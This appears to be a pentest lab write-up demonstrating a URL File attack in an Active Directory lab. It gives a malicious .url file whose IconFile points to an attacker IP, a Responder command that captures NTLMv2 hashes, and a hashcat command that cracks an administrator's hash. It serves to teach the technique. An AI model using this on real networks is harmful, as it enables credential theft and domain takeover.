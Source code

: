 # URL File Attack LAB DEMO

URL File attack is a post compromise attack which uses the access of the compromised used to upload a malicious URL file to the domain share. 

For this attack scenario, we have already compromised a user account (`Bruce Wayne`) and also during our initial lab setup, we have created a file share named `hackme` on the Domain Controller.  <br>
In this case, we can make of use Bruce Wayne's access to the share and upload a malicious URL file into the share. 

Once this is uploaded, whenever a domain user access this share, the file automatically loads even without clicking on it. Through this event, we can capture the NTLMv2 credentials of that user which can be even an Administrator.

### CREATING A MALICIOUS URL FILE:

```
[InternetShortcut] 
URL=anyurl 
WorkingDirectory=anydir 
IconFile=\\<ATTACKER IP>\%USERNAME%.icon 
IconIndex=1
```

`[InternetShortcut]` : this is basic syntax of URL file.
`URL=anyurl`: specifies web address which loads when someone click on the shortcut
`WorkingDirectory=anydir ` : specifies the default working directory for the shortcut

`IconFile=\\<ATTACKER IP>\%USERNAME%.icon ` : This is the important line which comes into play during the attack. it specifies to load an icon file which is referenced to the attacker IP.

### EXPLOITATION:

- Once we created the malicious URL file we need to upload it to the SHARE folder where our compromised user have access.

![[uploadURL 1.png]]

- Now we should set up the `responder` tool to listen for events. 

```bash
responder -I eth0 -dvw
```

![[Reponder1 1.png]]

- When any other user (For ex: Administrator) on the machine access `hackme` folder on the share. 
- Since our file is named with an "@" symbol. It loads first and makes a connection to the our IP and `responder` captures the NTLMv2 hash of that user. 

![[Adminhash 1.png]]

- An Administrator accessed the folder and `responder` successfully dumped the NTLMv2 hash of the administrator.
- Now we can uses tools like `hashcat` to crack this hash offline. and gain an ADMIN shell back using his credentials.

```bash
hashcat -m 5600 adminhash.txt /usr/share/wordlists/rockyou.txt -O
```

![[hashcat 1.png]]
